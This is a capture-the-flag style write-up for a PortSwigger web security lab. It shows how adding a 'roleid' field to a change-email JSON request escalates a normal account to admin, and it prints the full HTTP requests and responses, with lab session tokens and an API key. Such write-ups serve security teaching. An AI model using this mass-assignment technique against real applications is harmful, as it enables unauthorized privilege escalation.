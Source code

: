 
# [Lab 4: User role can be modified in user profile](https://portswigger.net/web-security/access-control/lab-user-role-can-be-modified-in-user-profile)

---

## Description

This lab has an admin panel at `/admin`. It's only accessible to logged-in users with a `roleid` of 2.

Solve the lab by accessing the admin panel and using it to delete the user `carlos`.

You can log in to your own account using the following credentials: `wiener:peter`

---

## Solution

After successfully logging in with the credentials `wiener:peter`, the `/my-account` page offers a feature for changing the user's email address. Using this feature generates the following request:

```http
POST /my-account/change-email HTTP/1.1
Host: acf51f511f4ebd6c802878a4007900af.web-security-academy.net
Cookie: session=BjMlCeJcCBzDKOmF31rbFPZq4ucZoUkM
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 28
Origin: https://acf51f511f4ebd6c802878a4007900af.web-security-academy.net
Dnt: 1
Referer: https://acf51f511f4ebd6c802878a4007900af.web-security-academy.net/my-account?id=wiener
Sec-Gpc: 1
Te: trailers
Connection: close

{
	"email": "wiener@admin.net"
}
```

With the response:

```http
HTTP/1.1 302 Found
Location: /my-account
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 120

{
  "username": "wiener",
  "email": "wiener@admin.net",
  "apikey": "xpOtLO8T58rDg4ApWp8jJZBTJcMDxR2P",
  "roleid": 1
}
```

Since the endpoint takes a JSON body whose key is a subset of the keys inside the user object (indicated by the JSON body in the response), perhaps it is possible to update the user's `roleid` by also including it in the request body. Submit the following request:

```http
POST /my-account/change-email HTTP/1.1
Host: acf51f511f4ebd6c802878a4007900af.web-security-academy.net
Cookie: session=BjMlCeJcCBzDKOmF31rbFPZq4ucZoUkM
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 46
Origin: https://acf51f511f4ebd6c802878a4007900af.web-security-academy.net
Dnt: 1
Referer: https://acf51f511f4ebd6c802878a4007900af.web-security-academy.net/my-account?id=wiener
Sec-Gpc: 1
Te: trailers
Connection: close

{
	"email":"wiener@admin.net",
	"roleid":  2
}
```

The response indicates that the `roleid` was successfully changed:

```http
HTTP/1.1 302 Found
Location: /my-account
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 120

{
  "username": "wiener",
  "email": "wiener@admin.net",
  "apikey": "xpOtLO8T58rDg4ApWp8jJZBTJcMDxR2P",
  "roleid": 2
}
```

Navigate to `/admin` and delete `carlos` to complete the challenge.
